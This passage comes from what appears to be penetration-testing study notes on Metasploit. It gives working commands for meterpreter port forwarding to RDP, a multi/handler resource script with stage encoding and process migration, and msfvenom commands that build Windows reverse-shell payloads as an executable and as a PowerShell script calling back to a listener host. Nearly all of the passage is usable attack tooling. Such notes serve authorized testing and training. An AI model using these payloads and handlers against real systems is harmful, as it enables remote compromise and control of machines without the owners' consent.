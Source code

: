 ```bash
# We could do the same with port forwarding instead of SOCKS
meterpreter > portfwd add -l 3389 -p 3389 -r 172.16.16.16
kali@kali:~$ sudo xfreerdp /v:127.0.0.1 /u:luiza             
```
{% endcode %}

## Client-side Attacks

{% hint style="info" %}
Specially for client-side attacks the multi/handler needs

```
set ExitOnSession False
```
{% endhint %}

## Automation

{% code overflow="wrap" %}
```ruby
# Resource Scripts
ls -l /usr/share/metasploit-framework/scripts/resource

# Create a resource script to automate the process, let's call it setup.rc
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_https 
set LHOST 10.11.0.4 
set LPORT 443 
set EnableStageEncoding true 
set StageEncoder x86/shikata_ga_nai 
set AutoRunScript post/windows/manage/migrate
set ExitOnSession false 
exploit -j -z

# After saving the script, we can execute it by passing the -r flag to msfconsole
sudo msfconsole -r setup.rc
# With the listener configured and running, we can launch an executable 
# containing a meterpreter payload
msfvenom -p windows/meterpreter/reverse_https LHOST=10.11.0.4 LPORT=443 -f exe -o met.exe
```
{% endcode %}

## Powershell

{% code overflow="wrap" fullWidth="true" %}
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=exploitad LPORT="Listening port" -f psh -o shell.ps1
```
{% endcode %}

## Import .rb on msfconsole
